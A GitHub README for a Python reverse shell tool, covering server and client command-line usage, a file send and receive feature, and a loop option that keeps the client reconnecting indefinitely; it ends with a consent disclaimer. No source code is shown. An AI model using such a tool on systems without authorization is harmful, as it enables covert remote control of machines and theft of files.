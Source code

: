 # Reverse Shell
This is a [reverse shell script](https://github.com/DBC201/Reverse-Shell) written in python. 

## Usage
### Server 
```python3 server.py```
#### arguments:
- ```-p "port"``` or ```--port "port"```
    - By default the server binds to port 41369.
    - To change to any other number use -p ... or --port ...
    - For example: if you want to run the server at port 22222
    - ```python3 server.py -p 22222``` or ```python3 server.py --port 22222```

#### commands:
- To list all current connections type list

- To connect to a machine type their numeric id

- To receive files type ```receive "file"``` while in the client's console to receive a file(must be on the same dir)
    The files will be copied into a folder called received_files at the directory server.py runs at.

- To send files type ```send "file"```. File to be sent must be in a directory called send that's in the same
directory as server.py. It must be run at the client's console and the file will be copied into the directory
the client shell is in.
    
### Client
```python3 client.py "ip" "port"```
#### arguments:
- ip: the ip of the server(this is required)
- port: the port the server is bound to (this is also required)
- ```-v```, ```--verbose```: a verbose output of what the server is running in the local shell
- ```-l```, ```--loop```: the client program will never halt unless an outside kill signal is sent.
it will attempt to connect indefinitely

This comes with neither warranty nor working guarantee whatsoever. If you do, use at your own risk.
I do not accept any responsibility of any sorts. Don't use this on systems that you
have no written consent to do so.
